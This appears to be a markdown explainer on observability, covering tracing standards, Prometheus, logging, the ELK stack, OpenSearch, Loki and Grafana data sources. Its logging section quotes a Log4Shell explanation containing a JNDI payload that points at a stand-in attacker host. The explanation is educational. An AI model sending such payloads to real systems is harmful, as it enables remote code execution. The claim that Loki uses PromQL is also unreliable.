



# Observability

Observability is a way to keep track of system and application health and performance in the cloud-native age in order to keep those systems and applications up and running.

The three core pillars of observability are 
1. traces
2. metrics
3. logs


# Pillar 1: Tracing

A trace starts with a request, which can also trigger downstream requests to other services, generating a tree structure of multiple requests. 
Tracing provides insight into the journey of requests across system components like APIs, load balancers, services, and databases.


Distributed tracing is the method of tracking the performance of application requests to monitor microservices, 
enabling developers, site reliability engineers (SREs), IT ops, and DevOps users to identify performance issues.

It is based on concepts Google published in its [Dapper paper](https://research.google/pubs/dapper-a-large-scale-distributed-systems-tracing-infrastructure/) back in 2010. 
The idea is to implicitly observe how a set of services interact with each other by having each service emit information about the actions it performed and enrich those signals with a common identifier.


### Implementing Tracing

There are many standards and implementations of tracing. There are currently three widely-used standards: 
1. Opentracing: The most widely used standard is Opentracing, started by CNCF. It supports plenty of programming languages. Meanwhile, it has already integrated with many widely used frameworks like spring, nginx and resttemplate.
2. Opencensus: Started by Google, it supports both tracing and metrics data. But compared with opentracing, it supports fewer frameworks and programming languages. 
3. Opentelemetry: It not only combines pros of both opentracing and opencensus, but also avoids their cons. 


# Pillar 2: Metrics

Metrics represent aggregate data points reflecting a system's operational state, including query rates, API responsiveness, and service latencies
Various TimeSeries databases like Influx can be used to store the data and visualized using Grafana

Prometheus is the most commonly used metrics-based open source monitoring solution.

[Prometheus documentation](https://prometheus.io/docs/introduction/overview/) provides this architecture diagram


For most use cases, you should understand three major components of Prometheus:

1. The **Prometheus server** scrapes and stores metrics. Note that it uses a persistence layer, which is part of the server and not expressly mentioned in the documentation. Each node of the server is autonomous and does not rely on distributed storage. **So you will in most cases need a time-series database to store Prometheus data, rather than relying on the server itself**.
2. **The web UI** allows you to access, visualize, and chart the stored data. Prometheus provides its own UI, but **you can also configure other visualization tools, like Grafana**, to access the Prometheus server using PromQL (the Prometheus Query Language).
3. **Alertmanager** sends alerts from client applications, especially the Prometheus server. It has advanced features for deduplicating, grouping, and routing alerts and **can route through other services like PagerDuty and OpsGenie.**

The key to understanding Prometheus is that **it fundamentally relies on scraping, or pulling, metrics from defined endpoints. This means that your application needs to expose an endpoint where metrics are available and instruct the Prometheus server how to scrape it**.

There are exporters for many applications that do not have an easy way to add web endpoints, such as Kafka and Cassandra **(using the JMX exporter)**


# Pillar 3: Logs
Logging involves recording discrete events within a system, such as incoming requests, database accesses, time taken to process the request and obviously errors.

In Java world, log4j is a standard, while similarly python provides id own logging module

```
Recently, the software development community was shaken by a significant security vulnerability associated with Apache Log4j, 

This vulnerability, tracked as CVE-2021-44228, and commonly referred to as Log4Shell or Log4j vulnerability, exposed a critical security flaw that could potentially allow remote attackers to execute arbitrary code on affected systems, leading to serious security breaches.

In essence, Log4Shell is a vulnerability that exploits Log4j's ability to dynamically interpret log messages, allowing attackers to inject and execute malicious code through seemingly harmless log entries.

eg. if an attacker sends a simple message like logger.info("Hello ${jndi:ldap://attacker.com/evil}")
It tells Log4j to look up a resource using JNDI (Java Naming and Directory Interface), specifically trying to connect to an LDAP server hosted by the attacker.
The attacker, via controlling the LDAP server, can send back a response containing malicious code. Log4j, being unaware of the danger, would then execute this code, leading to potential security breaches, such as taking control of the system or accessing sensitive information.

The severity of the Log4Shell vulnerability prompted immediate action from software vendors, organizations, and security researchers worldwide. The widespread adoption of Log4j across a myriad of applications and systems meant that the vulnerability posed a significant risk to a vast number of digital assets and infrastructure.

In response to the Log4Shell threat, the Apache Software Foundation swiftly released patches and updates to address the vulnerability. Additionally, security advisories were issued, urging users to upgrade their Log4j installations to patched versions as soon as possible to mitigate the risk of exploitation.
```


As our applications, and microservices can generate a lot of logs, we often need to use an analysis platform to collate and query these logs
The ELK stack (Elasticsearch, Logstash, Kibana) is commonly used to build log analysis platforms. 


### What is the ELK Stack?
The ELK Stack began as a collection of three open-source products — Elasticsearch, Logstash, and Kibana — all developed, managed and maintained by Elastic. The introduction and subsequent addition of Beats turned the stack into a four legged project.

* **Elasticsearch** is a full-text search and analysis engine, based on the Apache Lucene open source search engine. 
* **Logstash** is a log aggregator that collects data from various input sources, executes different transformations and enhancements and then ships the data to various supported output destinations. It’s important to know that many modern implementations of ELK do not include Logstash. To replace its log processing capabilities, most turn to lightweight alternatives like Fluentd, which can also collect logs from data sources and forward them to Elasticsearch. 
* **Kibana** is a visualization layer that works on top of Elasticsearch, providing users with the ability to analyze and visualize the data. And last but not least — Beats are lightweight agents that are installed on edge hosts to collect different types of data for forwarding into the stack.
* **Beats** refers to a family of lightweight data shippers or agents developed by Elastic. Beats are designed to efficiently collect, ship, and parse log data or metrics from various sources to Elasticsearch or Logstash for indexing and analysis.




In early 2021, Elastic announced a bombshell in the open source world: [the ELK Stack would no longer be open source, as of version 7.11](https://logz.io/blog/open-source-elasticsearch-doubling-down/).   
As, I Understand, they did this because they were concerned about other big companies, like Amazon Web Services (AWS), using their open source software without contributing much back to the community. They felt that this wasn't fair, as they were investing a lot of resources into developing and maintaining the software.
In response, AWS created their own open-source version of Elasticsearch called OpenSearch (forked from ElasticSearch).

### OpenSearch Components

Source [OpenSearch Documentation](https://opensearch.org/docs/latest/data-prepper/common-use-cases/log-analytics/)



* **FluentBit** can be used as a component for log collection and forwarding. Fluent Bit can be containerized through Kubernetes, Docker, or Amazon Elastic Container Service (Amazon ECS). You can also run Fluent Bit as an agent on Amazon Elastic Compute Cloud (Amazon EC2). Configure the Fluent Bit http output plugin to export log data to Data Prepper.
* **Data Prepper** supports receiving logs from Fluent Bit through the HTTP Source and processing those logs with a Grok Processor before ingesting them into OpenSearch through the OpenSearch sink.




### Loki
Loki is a horizontally scalable, highly available, multi-tenant log aggregation system inspired by Prometheus. It is designed to be very cost-effective and easy to operate, as it does not index the contents of the logs, but rather a set of labels for each log stream.

Here are some key features and aspects of Loki:
* **Log Aggregation**: Loki is primarily used for log aggregation, allowing users to collect logs from various sources and store them centrally for analysis and monitoring.
* **Labels-based Indexing**: Unlike traditional log management systems that index the entire content of each log entry, Loki indexes logs based on a set of labels. Labels are key-value pairs associated with each log entry that provide metadata about the log source, application, environment, etc. This approach significantly reduces storage requirements and allows for efficient querying.
* **PromQL for Queries**: Loki uses PromQL (Prometheus Query Language), the same query language used by Prometheus, for querying log data. This allows users to leverage their existing knowledge of PromQL and Prometheus-style monitoring for log analysis.
* **Distributed Architecture**: Loki is designed to be horizontally scalable and highly available. It consists of multiple components, including distributors, ingesters, queriers, and a storage backend. This distributed architecture enables Loki to handle large volumes of log data and provide reliable log storage and retrieval.
* **Integration with** Grafana: Loki is commonly used in conjunction with Grafana, a popular open-source visualization and analytics platform. Grafana provides a user-friendly interface for querying and visualizing log data stored in Loki, allowing users to create dashboards and alerts based on log metrics.
* **Cost-effective**: By indexing logs based on labels rather than their entire contents, Loki is more cost-effective than traditional log management systems, especially for organizations with large log volumes.

Overall, Loki is a powerful and efficient solution for log aggregation and analysis, particularly well-suited for cloud-native environments and microservices architectures where logs are generated at scale. Its integration with Prometheus and Grafana makes it a compelling choice for organizations already using these tools for monitoring and observability.

**Unlike Prometheus, which focuses on metrics, Loki is specialized in collecting and querying log data**

### Grafana
Grafana has emerged as one of the most popular open-source visualization and analytics platforms for time-series data. It provides users with the capability to query, visualize, alert on, and understand metrics no matter where they are stored. 

One of Grafana's most powerful features is its extensibility through plugins. Grafana plugins enhance its functionality by adding new visualizations, data sources, authentication methods, and more. There are two main types of plugins in Grafana: panel plugins and data source plugins.

1. **Panel Plugins**: Panel plugins add new visualization types to Grafana, allowing users to create more diverse and customized dashboards. Some popular panel plugins include:
   * Graph Panel: The default panel type in Grafana for visualizing time-series data using line graphs, bar charts, area charts, and more.
   * Pie Chart Panel: Allows users to create pie charts to visualize data distribution.
   * Gauge Panel: Displays data in the form of gauges, such as speedometers or progress bars, to indicate a value within a range.

2. **Data Source Plugins**: Data source plugins extend Grafana's capabilities by adding support for additional data sources beyond the built-in options. Simply speaking, datasource plugins periodically poll the database for new records and pass them to grafana for display.  
These plugins allow users to connect Grafana to specialized data repositories or services. Some examples of data source plugins include:

#### Data Sources in Grafana

At the heart of Grafana's functionality lies its data sources. Data sources are responsible for providing the time-series data that Grafana visualizes. Grafana supports a wide range of data sources, including databases, cloud platforms, monitoring systems, and more. Some of the most commonly used data sources in Grafana include:
* Prometheus: Prometheus is an open-source monitoring and alerting toolkit, widely used for monitoring containerized applications in Kubernetes environments but can also be used for general-purpose monitoring. 
* Graphite: Graphite is another popular open-source monitoring tool used for storing and graphing time-series data.
* InfluxDB: InfluxDB is a time-series database designed to handle high write and query loads.
* Elasticsearch: Elasticsearch is a distributed search and analytics engine commonly used for log and event data analysis.
* MySQL/PostgreSQL/Microsoft SQL Server: Grafana supports traditional relational databases like MySQL, PostgreSQL, and Microsoft SQL Server as data sources.
* Cloudwatch: In addition to metrics, the CloudWatch data source plugin also supports querying and visualizing logs stored in CloudWatch Logs. Users can specify log groups and filters to retrieve log data and display it in Grafana dashboards alongside other metrics.

All these datasources are available as Grafana Plugins

https://grafana.com/grafana/plugins/
